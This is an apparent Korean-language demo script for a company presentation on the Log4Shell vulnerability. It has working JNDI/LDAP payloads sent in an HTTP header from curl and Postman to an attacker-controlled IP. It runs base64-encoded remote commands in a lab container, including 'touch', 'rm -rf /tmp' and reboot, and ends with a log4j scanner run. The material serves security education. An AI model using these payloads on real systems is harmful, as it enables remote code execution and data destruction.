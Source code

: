 # log4j 공격 시연 시나리오 및 스캔 시연

> 사내 연말 Log4j 취약점 이슈 발표용 시연 시나리오

## 서버 세팅

### 1. 취약 서버(1번탭)

```bash
docker start vulnerable-app
docker logs -f vulnerable-app
```

![1](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/1.png)

> 새로운 탭 `Ctrl+Shift+T`
>
> 2번탭:  `docker exec -it vulnerable-app ls -al /tmp` 해서 tmp 폴더 상태 띄워두기

![2](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/2.png)

### 2. 공격 서버

> 3번 탭 새로 하나 띄우고 `Ctrl+Shift+T`

```bash
ssh cloud
java -jar /shane/attack.jar -i 146.56.44.96 -p 8888
```

![3](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/3.png)

### 3. Postman 실행

> Postman 크기를 적당히 조정해서 1번 tab의 로그가 갱신될 때 확인 가능하도록 해둠. Terminal Tab을 1번으로 돌려둠.

## 공격

> Postman에 요청

### Log4J가 JNDI LookUp을 하고 있는지 확인

```bash
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:java:version}
```

![4](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/4.png)

> javq 버전 올라오는 것 확인 후, Tab을 공격 서버로 변경 (3번탭)

### LDAP 서버로 요청을 보내는지 확인

```bash
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:ldap://146.56.44.96:1389/argonet}
```

> Postman 사용불가능할 경우 Terminal에서 curl로 요청
>
> ```bash
> curl 127.0.0.1:9999 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/argonet}'
> ```

![5](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/5.png)

- 공격 쿼리 전송

> 3번 tab에서 LDAP 요청 온것 확인 후, 1번탭에서 look up 한것 확인 후 다시 3번 탭 띄워둠.

### 쿼리로 보낼 커맨드 Base64로 인코딩

```bash
echo -n 'touch /tmp/argonet.december-table' | base64
```

![6](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/6.png)

### 취약 서버에 명령어 전송

```bash
PostMan으로 헤더에 X-Api-Version value 넣어서 요청 혹은 curl로 요청
curl 127.0.0.1:9 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9hcmdvbmV0LmRlY2VtYmVyLXRhYmxl}'
```

![7](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/7.png)

> Payload에 `touch /tmp/agronet.december-table` 이라는 커맨드를 담아 요청 한 것을 확인.

### 취약서버 공격 당한 흔적 확인

> 2번 Tab을 열어 같은 명령어를 그대로 쳐서 새로운 파일이 들어온 것을 확인

![8](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/8.png)

> 백도어가 간단하게 심어진다는 것을 설명. 파일 생성시간을 확인 시켜준다.

UTC 시간을 확인시켜 준다.

```bash
date -u
```

![9](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/9.png)

폴더 삭제 시연

> 다시 공격 서버로 탭 3번 올려둠.

명령어 만들기 위해 새로운 창의 Terminal에서 tmp 폴더 삭제 명령어 인코딩 후 공격 코드 전송

```bash
echo -n 'rm -rf /tmp' | base64
```

![10](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/10.png)

이후 두번째 탭에서 파일 삭제 된 것 확인

![11](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/11.png)

### reboot 명령까지 전송

> 3번탭에서 reboot 명령어 전송 된 것 확인 후 docker 컨테이너 종료 된 것 확인

![12](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/12.png)

<br><br>

공격 시연 끝 다시 발표로 돌아가기

## log4j scan 시연

일단 vulnerable-app 다시 실행 해 준다.

```bash
docker start vulnerable-app
```

> 혹시 tmp 폴더를 지워버렸으면 docker 컨테이너가 실행이 안되니 /tmp 폴더를 생성 해줘야함
>
> 안그러면 서버가 계속 죽는다.
>
> ```bash
> mkdir tmp
> docker cp ./tmp vulnerable-app:/
> docker start vulnerable-app
> ```

`docker logs -f vulnerable-app ` 해서 서버 잘 뜬거 확인 후

```bash
git clone git@github.com:fullhunt/log4j-scan.git
```

```
cd log4j-scan
ls
pip3 install -r requirements.txt
python3 log4j-scan.py -u "http://gaia.best"
```

![13](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/13.png)

이번에는 취약 서버 확인

```bash
python3 log4j-scan.py -u "http://localhost:9999"
```

![14](https://raw.githubusercontent.com/Shane-Park/mdblog/main/presentation/log4shell.assets/14.png)

Targets Affected 확인.

<br><br>

취약점 스캔 시연 끝. 발표로 돌아가기